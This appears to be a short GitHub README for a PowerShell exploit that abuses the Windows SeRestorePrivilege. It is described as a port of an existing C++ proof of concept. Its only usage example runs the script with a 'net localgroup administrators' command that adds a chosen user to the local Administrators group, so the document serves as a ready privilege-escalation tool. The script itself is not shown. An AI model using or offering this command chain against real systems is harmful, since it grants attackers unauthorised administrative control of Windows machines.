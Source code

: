 # SeRestorePrivilege_PowerShell
PowerShell script to exploit SeRestorePrivelege

Powershell Version of the C++ PoC from https://github.com/xct/SeRestoreAbuse 

**Useage**

The below command will add a user to the Administrators group. 

```.\SeRestorePrivilegeAbuse.ps1 "cmd /c net localgroup administrators {user_name} /add"```
